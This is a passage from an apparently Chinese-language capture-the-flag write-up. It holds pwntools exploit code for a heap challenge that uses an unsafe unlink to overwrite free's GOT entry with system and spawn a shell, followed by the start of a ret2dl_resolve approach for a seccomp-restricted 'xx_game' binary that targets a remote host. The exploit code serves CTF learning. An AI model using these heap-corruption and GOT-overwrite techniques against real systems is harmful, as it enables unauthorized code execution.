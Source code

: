 ```python
free_got=0x602018

fake=0x601ffa

cn.recvuntil('\n\n')


add(0x88,'a')#0
add(0x88,'b')#1
add(0x88,'b')#2
add(0x88,'b')#3 <-
add(0x88,'b')#4
add(0x88,'/bin/sh\x00')#5


free(3)
free(4)
pay = p64(0)+p64(0x81)+p64(chunklist+0x18-0x18)+p64(chunklist+0x18-0x10)
pay = pay.ljust(0x80,'x')
pay+=p64(0x80)+p64(0x90)
add(0x10+0x80+0x10+0x80+8-0x10,pay)#6
free(4)

edit(3,p64(bin.got['free']),'')
#z('b*0x0000000000400B87\nc')
edit(0,p64(bin.plt['system']),'')
free(5)

cn.interactive()
```

### pwn - xx_game

我和大佬一起做的这题,这题的前半部分是自动化逆向,是大佬做的,我就说说后半部分pwn的部分吧

![](n1ctf_qwb_4d899e8c2a41aa62ad60c677bbfcc984.png)

先是限制了一堆的syscall调用,execve是不存在的了.只能用open,read,write去打印flag了

其中这里ida参数分析错了,`seccomp_rule_add_exact`的参数不止这些,其中第二句

![](n1ctf_qwb_9567d8a223df3d7bd1655615b4dc6a08.png)

后面这个是一个结构体,结构我不是很清楚,但是通过那个602100h大概是猜到write的地址只能在602100h了.

不考虑去用syscall,太鸡儿麻烦了,我用linkmap来完成.

具体的我在[这篇](http://veritas501.space/2017/10/07/ret2dl_resolve%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)中已经说的很清楚了.

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	cn = process(['./dec.pwn','4091897675'],env={'LD_PRELOAD':'./libc.so'})
	bin = ELF('./dec.pwn')
	libc = ELF('./libc.so')
else:
	cn = remote('39.107.32.202',2333)
	bin = ELF('./dec.pwn')
	libc = ELF('./libc.so')
```